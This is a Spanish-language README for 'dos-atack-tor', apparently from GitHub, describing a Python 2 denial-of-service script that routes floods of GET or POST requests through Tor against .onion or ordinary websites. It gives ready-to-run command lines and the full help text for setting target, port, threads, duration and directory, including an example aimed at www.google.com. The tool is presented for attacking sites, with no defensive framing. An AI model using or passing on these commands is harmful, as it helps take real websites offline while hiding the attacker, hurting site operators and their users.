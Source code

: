 # dos-atack-tor
script de python que permite usar conexiones cebollas para atacar paginas .onion o paginas convencionales via tor. tiene capacidad de ajustar la cantidad de informacion a enviar, el numero de hilos a usar, el tiempo de duracion del ataque, atacar a un directorio en especial y etc. Su ataque es sencillo, trata de saturar un recurso en base a peticiones GET en rutas del servidor excesivamente lentas.
 ![Alt text](https://raw.githubusercontent.com/desmonHak/dos-atack-tor/main/image/Screenshot_2021-12-11_02-55-33.png) 

se a de ejecutar con python 2, ejemplo:

-----------------------------------------------------------------------------------------
	python2 script-dos.py -ip 127.0.0.1 -t False -p 8000 -th 20 -c 10 -peticion GET -time 30
-----------------------------------------------------------------------------------------

este ejemplo atacaria al equipo local hacia el puerto 8000 usando 20 hilos y 10 caracteres por peticion GET, duraria 30 segundos el ataque, el uso tor esta desactivado, para mas inrformacion --help.

-----------------------------------------------------------------------------------------
	python2 script-dos.py --help
	usage: script-dos.py [-h] [-t TOR] [-ip TARGET] [-p PORT] [-th THREADS]
                     [-c CHARS] [-peticion PETICION] [-time TIMEATACK]
                     [-dir DIRECTORIO]
	optional arguments:
	  -h, --help            show this help message and exit
	  -t TOR, --tor TOR     Usar Tor en el ataque, por defecto activado
	  -ip TARGET, --target TARGET
        	                host o ip a atacar
	  -p PORT, --port PORT  puerto a atacar
	  -th THREADS, --threads THREADS
	                        threads/hilos a usar en el ataque, por defecto 20
	  -c CHARS, --chars CHARS
	                        caracteres a enviar, por defecto 20
	  -peticion PETICION, --peticion PETICION
	                        peticones a usar: GET o POST, POST por defecto
	                        ejemplo: python2 script-dos.py -ip www.google.com -p
	                        80 -th 30 -peticion GET -t True
	  -time TIMEATACK, --timeAtack TIMEATACK
	                        tiempo de duracion del ataque en segundosm tiempo por
	                        defecto: 45 segundos
	  -dir DIRECTORIO, --directorio DIRECTORIO
	                        atacar algun directorio en especial del servidor
-----------------------------------------------------------------------------------------
